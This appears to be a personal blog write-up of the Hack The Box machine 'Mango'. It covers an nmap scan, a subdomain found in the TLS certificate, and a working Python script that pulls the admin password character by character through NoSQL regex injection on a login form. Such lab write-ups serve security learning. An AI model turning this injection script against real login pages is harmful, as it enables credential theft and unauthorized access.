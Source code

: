 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: false
tags: ["pentesting","Hack The Box"]
reads: 2
description: Mango was the first Hack The Box I got user-level access to! Here's how I used nmap, tls certificates, and  NoSql injection to get access to the box."
---
```

Mango was the first Hack The Box box I got user-level access to!  To get in, I started off with a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan, I knew there were two http/https servers and ssh was running. I  looked at what was hosted on these web servers.  On port 80 I didn't find anything. But on port 443 I found a website that looked like a clone of the google search page. I ran gobuster against the server on port 80 but did not find any webpages.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up Mango Solutions in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed data to see if I could exploit the web service but there were no interesting error messages. I then took a look at the TLS certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb, I found a login page.
![login screen](/img/mango/login.jpg)
I then tried different types of injections on the login page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts mango and admin. I guessed that there was an account with the username admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mongo db. By using a regular expression to match on the first characters of the password, we can enumerate the password. The http status code 302 tells us that our prefix matches the password. Using the found admin credentials I was unable to ssh onto the box. I was able to get onto the box using the mango credentials. However, I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```
